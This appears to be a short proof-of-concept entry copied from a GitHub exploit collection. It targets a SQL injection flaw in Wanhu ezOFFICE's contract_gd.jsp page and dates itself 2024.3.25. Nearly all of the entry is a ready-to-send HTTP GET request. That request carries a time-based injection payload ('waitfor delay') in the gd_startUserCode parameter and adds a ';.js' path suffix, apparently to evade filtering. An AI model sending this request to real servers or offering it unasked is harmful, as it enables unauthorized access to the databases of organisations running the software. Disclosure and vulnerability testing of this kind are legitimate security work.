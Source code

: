 # wanhu_contract_gd_sqli

from: https://github.com/wy876/POC/blob/main/%E4%B8%87%E6%88%B7ezOFFICE-contract_gd.jsp%E5%AD%98%E5%9C%A8SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

2024.3.25 @2
```
GET /defaultroot/modules/subsidiary/contract/contract_gd.jsp;.js?gd=1&gd_startUserCode=1%27%3Bwaitfor%20delay%20%270%3A0%3A5%27-- HTTP/1.1
```
